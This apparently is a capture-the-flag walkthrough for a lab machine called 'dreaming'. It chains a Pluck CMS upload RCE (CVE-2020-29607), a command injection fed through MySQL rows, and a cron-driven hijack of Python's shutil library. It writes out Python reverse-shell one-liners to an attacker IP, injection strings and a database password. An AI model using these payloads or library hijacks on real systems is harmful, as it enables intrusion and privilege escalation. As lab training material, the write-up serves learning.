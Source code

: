 # dreaming
Solve the riddle that dreams have woven.


## 1. lucien flag

on http://MACHINE_IP/app/pluck-4.7.13/ runs https://github.com/pluck-cms/pluck. To access the admin panel you need to guess the password which is "password". The pluck version 4.7.13 has an RCE vulnerability - CVE-2020-29607, for which there is an exploit available at exploit-db. Just change the ip, port, password in the script, and then try to view the uploaded image in the webapp, which will trigger the webshell inside the image. <br>
https://nvd.nist.gov/vuln/detail/CVE-2020-29607 <br>
https://www.exploit-db.com/exploits/49909

the password for the lucien user can be found in /opt/test.py.

## 2. death flag
the /home/death/getDreams.py script is not viewable but there is a copy in /opt/getDreams.py, which has an command injection vulnerability:
```python
# Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)   # <-- vulnerability 
                print(shell)
```


create reverse shell script, insert it into the library mysql DB, the login is in the bash history of the lucien user:
```bash
# just output the flag without reverse shell:
mysql -u lucien -plucien42DBPASSWORD -Dlibrary -e "insert into dreams (dreamer, dream) values ('hacker3', '; cat ~/death_flag.txt');"

# create /tmp/reverse.sh:
export RHOST="10.8.196.176";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

# make it executable:
chmod +x /tmp/reverse

# insert execution of /tmp/reverse.sh into DB
mysql -ulucien -Dlibrary -plucien42DBPASSWORD -e "insert into dreams values ('hacker', dream='\; /tmp/reverse')"

# to check mysql table:
mysql -ulucien -Dlibrary -plucien42DBPASSWORD -e "select * from dreams;"

# start listener on attacking host:
nc -nvlp 9001

# execute /home/death/getDreams.py as death and trigger reverse shell:
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

## 3. morpheus flag

/home/morpheus/restore.py:
```python
from shutil import copy2 as backup  # <-- loads shutil library on which death user has write access

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

when looking with the lucien user at /var/log/syslog you see that /home/morpheus/restore.py gets executed every minute:
```log
Dec  1 16:00:01 dreaming CRON[65454]: (morpheus) CMD (/usr/bin/python3.8 /home/morpheus/restore.py)
Dec  1 16:00:01 dreaming CRON[65453]: (CRON) info (No MTA installed, discarding output)
Dec  1 16:01:01 dreaming CRON[65458]: (morpheus) CMD (/usr/bin/python3.8 /home/morpheus/restore.py)
Dec  1 16:01:01 dreaming CRON[65457]: (CRON) info (No MTA installed, discarding output)
```

To exploit this write another reverse shell at the top of the malicious library:
```bash
# find the shutil library file in the filesystem:
find / -name shutil* 2>/dev/null
# -rw-rw-r-- 1 root death 51314 Dec  1 16:01 /usr/lib/python3.8/shutil.py

# insert at the top of /usr/lib/python3.8/shutil.py
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.196.176",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")

# On attacking machine start an listener:
nc -nlvp 9002
```



